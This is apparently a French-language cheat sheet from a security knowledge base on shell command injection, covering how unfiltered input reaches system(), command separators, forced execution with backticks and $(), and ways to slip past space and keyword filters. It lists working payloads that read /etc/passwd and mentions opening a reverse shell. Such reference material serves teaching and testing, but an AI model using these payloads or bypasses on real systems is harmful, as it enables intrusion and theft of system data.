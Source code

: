 <!--- id: intro --->
<!--- category: cmdinjection --->
# Injection de commandes Shell

L'injection de commande Shell est possible quand un programme utilise une donnée, entrée par l'utilisateur, sans la filtrer, comme argument d'une commande shell.

Par exemple: un formulaire permet de saisir son nom et l'afficher.
Le code coté serveur va ressembler à: system ('echo '.$NAME);
Si nous saisissons: YOLO; cat /etc/password;
Le serveur va enchainer les deux commandes en executant system ('echo YOLO; cat /etc/password;'); et nous permettre de récupérer le contenu du fichier passwd.

<!--- id: CommandPrinciple --->
<!--- category: cmdinjection --->
<!--- keywords:  --->
## Command Injection: Principe

L'injection de commande Shell est possible quand un programme utilise une donnée, entrée par l'utilisateur, sans la filtrer, comme argument d'une commande shell.

Par exemple: un formulaire permet de saisir son nom et l'afficher.
Le code coté serveur va ressembler à: 
```
system ('echo '.$NAME);
```
 
Si nous saisissons: 
```
YOLO; cat /etc/password;
```
 
Le serveur va enchainer les deux commandes en executant:
```
system ('echo YOLO; cat /etc/password;'); 
```
 
Nous allons récupérer le contenu du fichier passwd.

Avec une injection de commande nous avons la main sur le serveur.
Nous pouvons récupérer des informations sur le serveur (uname -a), recupérer des noms de comptes (cat /etc/passwd), récupérer les fichiers de config du serveur web, lancer un reverse shell...

<!--- id: CommandChainUx --->
<!--- category: cmdinjection --->
<!--- keywords:  --->
## Unix: Enchainer deux commandes shell

Utiliser les séparateurs de commandes ; && | ||
```
echo YOLO; cat /etc/passwd
echo YOLO && cat /etc/passwd
echo YOLO | cat /etc/passwd
echo YOLO || cat /etc/passwd    Seulement si la première commande est en echec
```
 

<!--- id: CommandEvalUx --->
<!--- category: cmdinjection --->
<!--- keywords:  --->
## Unix: Force command execution in a string

Il est possible de forcer l'execution d'une commande avec ` $ et {
```
echo `cat /etc/passwd`
echo $(cat /etc/passwd)
echo {cat,/etc/passwd}
```
 

<!--- id: CommandSpaceFilteres --->
<!--- category: cmdinjection --->
<!--- keywords:  --->
## Bypass: Les espaces sont filtrés

Les développeurs peuvent avoir mis des filtres pour empécher l'execution de commande. Par exemple retirer les espaces. Néanmoins, même sans espaces, il est toujours possible de lancer lancer des commandes:
```
cat&lt;/etc/passwd
{cat,/etc/passwd}
X=$'cat\x20/etc/passwd'&&$X
```
 

<!--- id: CommandBlacklist --->
<!--- category: cmdinjection --->
<!--- keywords:  --->
## Bypass: Certains mot clefs sont filtrés

Si un filtre recherche une liste de commandes, il est toujours possible de le contourner: simple quote, double quote, backslash et slash
```
c'a't /etc/passwd
cat /etc/passwd
c\at /etc/passwd
who``ami
```
 
Et si un nom de fichier est filtré, il est possible de multiplier les /
Filtre sur cat et /etc/passwd
```
c\at /etc////////passwd
```
 

